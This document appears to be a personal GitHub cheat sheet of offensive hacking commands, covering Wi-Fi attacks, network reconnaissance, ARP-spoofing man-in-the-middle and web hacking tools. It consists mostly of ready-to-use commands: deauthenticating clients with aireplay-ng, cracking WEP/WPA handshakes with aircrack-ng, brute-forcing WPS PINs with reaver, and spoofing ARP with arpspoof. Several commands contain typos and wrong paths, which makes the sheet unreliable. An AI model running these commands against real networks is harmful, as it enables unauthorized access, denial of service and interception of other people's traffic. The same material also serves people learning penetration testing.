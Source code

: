 # dump
Contains non relevant info that I wanna dump


## Table of Content
1. Network Hacking
    1. Pre-connection Attack
    1. Gaining Access
    1. Post-connection Attack
1. Gaining Access
1. Post exploitation
1. Website Hacking 
---

```
iwconfig : Gived info about wireless adapter
ifconfig [interface name] down/up : Make the interface up/down
airmon-ng check kill
iwconfig [interface-name] mode monitor : Changes wireless mode from managed to monitor
ifconfig [interface-name] hw ether [Your_Desired_MAC_Adress]
```

### airodump-ng : Used by wireless interface in monitor mode to capture packet
```
airodump-ng [interface-name] : Sniffs all the wireless network around with their protection level(Open/WEP/WPA/WPA2) and other critical info

airodump-ng --band [a,b,g,n] [interface-name] : capture packet in band specified

airodump-ng --bssid [bssid] --channel [channel number] --write [filename] [interface-name]

aireplay-ng --deauth  100000 -a [access mac] -c [client mac] [interface-name] : Disable a user from using wi-fi
```

### aircrack-ng : Used to crack WEP(IV + key) 
```
aircrack-ng [cap-file-name]
```

### aireplay-ng : Used to generate fake traffic. It comes handy if target wifi is not generating enough traffic
```
aireplay-ng --fakeauth 0 -a [mac-of-AP] -h [mac-of wireless-adapter] [interface-name] : For assocaiation
aireplay-ng --arpreplay  -b [mac-of-AP] -h [mac-of wireless-adapter] [interface-name]
```

### Cracking WPA/WPA2
Only difference in encrption used for message integrity
WPA: TKIP
WPA2: CCMP

WPS: Can be exploited. It was designed to simplify connecting to wireless. Only way to prevent against this is enabling PBC(Push button connect)

```
wash --interface [interface-name] : Shows all the wifi with wps enabled
reaver --bssid [bssid] --channel [channel number] --interface [interface-name] -vvv --no-associate : Bruteforce 8 bit WPS pin which is then used to compute WPA Passkey
```

#### Wordlist Attack
```
MIC of handshake + word list 
aircrack-ng [handshake-capture-file]-w [wordlist] 
```
---
#### Creating Wordlist
crunch [min] [max] [character] -t [pattern] -o [filename]


---
### NetDiscover and Nmap
```
netdiscover -r [range-of-ip] : IPs and Vendor of devices connected to the same network
```

Nmap: Gives information about open port, operating system and running services.
Zenmap: GUI warpper over Nmap


### MITM Attack
Multiple ways to attain this. One way is ARP spoofing.

arpspoof -i [interface-name] -t [target_ip] [gateway_ip]
arpspoof -i [interface-name] -t [gateway_ip] [target_ip]

After these two commands, arp is spoofed but still we has to force out computer to work as router
echo 1 > /proc/sys/ipv4/ip_forward


BetterCap: better than arpspoof.


## Post Exploitation
The things which can be done after gaining access to target system.
> keyloggers, opening webcam, using it as pivot

## Website Hacking 

### XSS
Persistent XSS : Stored in DB
Reflected XSS : Run on a specific URL
DOM based XSS : 

**Beef** : Used for XSS attack

### ZAP : Zed attach proxy
Automatically find vulnerabilities in web application.

### Information Gathering
```
knock : Find subdomain of target
drib [url] [wordlist] : Web Content server tool to  collect infomration about files on server

ip: [ip] : to get list of all websites on server.
```
#### Best website for info-gathering: 

1. [https://www.robtex.com/](https://www.robtex.com/) 
1. [http://whois.domaintools.com/](http://whois.domaintools.com/)
1. [https://sitereport.netcraft.com/](https://sitereport.netcraft.com/)